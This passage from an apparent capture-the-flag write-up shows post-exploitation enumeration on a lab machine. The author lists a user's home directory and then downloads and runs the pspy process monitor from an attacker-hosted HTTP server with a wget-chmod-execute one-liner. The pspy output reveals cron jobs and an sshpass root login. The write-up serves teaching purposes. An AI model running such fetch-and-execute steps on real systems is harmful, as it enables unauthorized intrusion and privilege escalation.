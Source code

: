 I'm user `ArthurMorgan`!

### ArthurMorgan to marston

**Let's check our home directory!**
```shell
ArthurMorgan@incognito:/var/www/html/dev$ cd ~
ArthurMorgan@incognito:~$ ls -lah
total 32K
drwxr-xr-x 6 ArthurMorgan ArthurMorgan 4.0K May 28  2021 .
drwxr-xr-x 4 root         root         4.0K Mar 21  2021 ..
lrwxrwxrwx 1 root         root            9 Mar 23  2021 .bash_history -> /dev/null
drwx------ 2 ArthurMorgan ArthurMorgan 4.0K Mar 21  2021 .cache
drwxr-x--- 3 ArthurMorgan ArthurMorgan 4.0K Mar 21  2021 .config
drwx------ 4 ArthurMorgan ArthurMorgan 4.0K Mar 21  2021 .gnupg
-rw-r--r-- 1 ArthurMorgan ArthurMorgan   56 Mar 21  2021 ideas
drwxrwxr-x 3 ArthurMorgan ArthurMorgan 4.0K Mar 21  2021 .local
-rw-r--r-- 1 ArthurMorgan ArthurMorgan   33 Mar 21  2021 user.txt
```

```shell
ArthurMorgan@incognito:~$ cat ideas 
I don't know why I don't get any ideas to write here...
```

Nothing useful.

**`pspy`:**
```shell
┌[root♥siunam]-(/opt/pspy)-[2023.01.20|18:25:47(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
ArthurMorgan@incognito:~$ wget http://10.9.0.253/pspy64 -O /tmp/pspy;chmod +x /tmp/pspy;/tmp/pspy
[...]
2023/01/20 10:26:35 CMD: UID=1002 PID=1332   | ssh root@localhost 
2023/01/20 10:26:35 CMD: UID=1002 PID=1331   | sshpass -p {Redacted} ssh root@localhost 
2023/01/20 10:26:35 CMD: UID=1002 PID=1324   | python3 /home/marston/hicckup.py
[...]
2023/01/20 10:27:01 CMD: UID=0    PID=5598   | /usr/sbin/CRON -f 
2023/01/20 10:27:01 CMD: UID=0    PID=5597   | /usr/sbin/CRON -f 
2023/01/20 10:27:01 CMD: UID=1002 PID=5599   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5603   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5602   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5601   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5600   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5607   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5606   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5605   | /bin/bash /home/marston/run.sh 
2023/01/20 10:27:01 CMD: UID=1002 PID=5604   | /bin/bash /home/marston/run.sh 
[...]
2023/01/20 10:28:01 CMD: UID=1002 PID=5613   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5612   | /bin/sh -c /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=0    PID=5611   | /usr/sbin/CRON -f 
2023/01/20 10:28:01 CMD: UID=1002 PID=5617   | wc -l 
2023/01/20 10:28:01 CMD: UID=1002 PID=5616   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5615   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5614   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5621   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5620   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5619   | /bin/bash /home/marston/run.sh 
2023/01/20 10:28:01 CMD: UID=1002 PID=5618   | /bin/bash /home/marston/run.sh
```
